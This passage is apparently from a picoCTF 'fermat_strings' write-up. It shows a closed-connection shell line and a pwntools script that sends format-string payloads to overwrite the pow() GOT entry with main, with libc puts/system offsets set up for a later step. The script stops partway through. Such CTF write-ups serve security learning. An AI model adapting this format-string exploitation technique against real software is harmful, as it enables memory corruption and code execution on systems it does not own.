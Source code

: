 ```shell
run
$
[*] Closed connection to mars.picoctf.net port 31929
hjn4@LAPTOP-TEHHNDTG:/mnt/d/pwn_myself/Pico/fermat_strings_final/bin$

```


### full my exploit code


```python
from pwn import *

binary = ELF("chall")

libc = ELF("libc.so.6")

if not args.REMOTE:
    r = process(binary.path)
    #gdb.attach(r, api = True)
    
   
else:
    r = remote('mars.picoctf.net', 31929)
    # puts_offset_libc = 0x0875a0
    # system_offset = 0x055410

puts_offset_libc = libc.symbols["puts"] 
system_offset = libc.symbols['system'] 

pow_got = binary.got['pow']
main_addr = binary.symbols['main']

log.info(f"Main address: {hex(main_addr)}") # 0x400837
log.info(f"pow() GOT address: {hex(pow_got)}") # 0x601040

payload1 = b"11111111" + p64(pow_got) #+ p64(pow_got+4)

r.sendlineafter("A: ",payload1)

payload2 = b"1_______%" + str(int(main_addr) - 46).encode("ascii") + b"p%11$n--" #4196361

r.sendlineafter("B: ",payload2)

r.recvuntil("Calculating for A: ")
log.info("rewrote pow GOT to main")

######################################

def send_payload(r, a, b):
    log.info(f"Sending:\nA:\n{a}\nB:\n{hexdump(b)}")
    r.sendlineafter("A: ", a)
    r.sendlineafter("B: ", b)

def send_format(r, format, values):
    format_prefix = b'1_______'
    values_prefix = b'1_______'
    send_payload(r, format_prefix + format, values_prefix + values)
    out = r.recvline()
    arr = out.split(b" and ")
    res = arr[0].replace(b"Calculating for A: " + format_prefix, b"")
    log.info(f"Received:\n{hexdump(res)}")
    return res
```